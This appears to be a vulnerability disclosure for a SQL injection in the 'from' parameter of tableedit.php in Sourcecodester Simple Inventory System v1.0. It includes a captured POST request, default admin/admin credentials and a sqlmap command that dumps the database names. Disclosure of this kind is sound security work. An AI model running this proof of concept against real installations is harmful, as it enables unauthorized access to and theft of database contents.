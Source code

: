 ### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：tableedit.php

injection parameter:$_POST['from']

#### 1.Vulnerability analysis

As shown in the figure below, in tableedit.php, after the from parameter is passed in through post, it is directly spliced into the SQL update statement without any security filtering, resulting in a SQL injection vulnerability. We can obtain any information in the database through error-based injection.

![image-20240517161740724](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20Sq%20Inject-3.assets/image-20240517161740724.png)

#### 2.Vulnerability verification and exploit

After admin/admin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
POST /tableedit.php HTTP/1.1
Host: 10.15.6.184:82
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.15.6.184:82
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.15.6.184:82/tableedit.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ncbt63bs17glrou5b79l17ifm6
Connection: close

from=2024-05-15&to=2024-05-16
```

python .\sqlmap.py -r .\1.txt --batch --dbs

![image-20240517161559656](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20Sql%20Inject-3.assets/image-20240517161559656.png)
